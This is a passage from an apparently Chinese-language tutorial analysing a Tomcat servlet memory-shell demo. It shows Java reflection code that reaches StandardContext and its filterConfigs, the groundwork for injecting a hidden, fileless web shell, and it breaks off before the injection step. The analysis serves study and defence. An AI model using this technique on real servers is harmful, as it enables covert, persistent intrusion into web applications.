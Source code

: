 [![](assets/1708482732-28e6037fc351f00f8e61f9aeb57c27bd.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240211003459-554a3e8c-c832-1.jpeg)

同样的，这里我也适配了中文编码，和一些提示性语句的输出。

### 3.2.2 servlet 内存马 demo 代码分析

我们分开来分析，首先看这段代码：

```bash
ServletContext servletContext = request.getSession().getServletContext();
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
Field filterConfigsField = standardContext.getClass().getDeclaredField("filterConfigs");
filterConfigsField.setAccessible(true);
Map filterConfigs = (Map) filterConfigsField.get(standardContext);
```
